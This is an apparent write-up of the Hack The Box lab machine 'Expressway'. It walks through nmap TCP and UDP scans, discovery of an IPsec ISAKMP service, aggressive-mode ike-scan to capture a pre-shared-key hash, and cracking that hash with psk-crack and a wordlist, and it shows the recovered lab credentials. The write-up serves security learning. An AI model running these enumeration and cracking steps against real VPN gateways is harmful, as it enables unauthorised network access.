

# Expressway (Linux)

My solution pertaining to the machine **Expressway** on HTB Labs.

---

## Recon

I start by scanning all ports with a basic NMAP scan:

```
sudo nmap 10.129.8.198 -p-
```

Only port **22** appears to be open.


I continue by adding service detection (**-sV**) and default scripts (**-sC**) to the NMAP command: 

```
sudo nmap 10.129.8.198 -p 22 -sV -sC
```

Port 22 is running **OpenSSH version 10.0p2** on a **Linux** OS. 


I run some targeted SSH scripts with NSE:

```
sudo nmap 10.129.8.198 -p 22 --script ssh*
```

The SSH scripts did not reveal anything of importance. Since i don't have a valid username or password/SSH key, i don't think this is the intended attack vector. I could attempt brute-forcing with a tool such as **Hydra**, but brute-forcing is rarely the purpuse of HTB labs.

While most services run over TCP, **UDP** services are still widely deployed and often exploitable. Therefore i run a new NMAP scan using UDP. UDP scans are usually much slower than TCP scans, so i include some optimization flags:

```
sudo nmap -p- -sU 10.129.8.198 --max-retries 0 --min-rate=3000
```

I discover an interesting service running on port **500**.


After doing some research i discover that **ISAKMP** is a protocol used for IPSEC-tunnels, which coincides nicely with the machine name Expressway", hinting at a tunnel or gateway. My research also leads me to a tool called **ike-scan** used for discovering and enumerating hosts running IPsec VPN servers. 

I start by installing the tool:

```
sudo apt install ike-scan
```

I run an **ike-scan** in aggressive mode:

```
sudo ike-scan -A 10.129.8.198
```



The scan reveals some interesting information:

- VPN login: ike@expressway.htb
- PSK hash: 20 bytes
- Encryption: 3DES/SHA1
- DH group: modp1024

Since i have found a hash, i will attempt to crack it using the related **psk-crack** tool.

The following command ouputs the raw hash to a file:

```
sudo ike-scan -A --pskcrack=ike_hash.txt 10.129.8.198

```

Crack hash:

```
psk-crack ike_hash.txt -d /usr/share/wordlists/rockyou.txt
```


We succesfully cracked the PSK and have attained some valuable information moving forward:

- ID: ike@expressway.htb
- PSK: freakingrockstarontheroad
- IP: 10.129.8.198
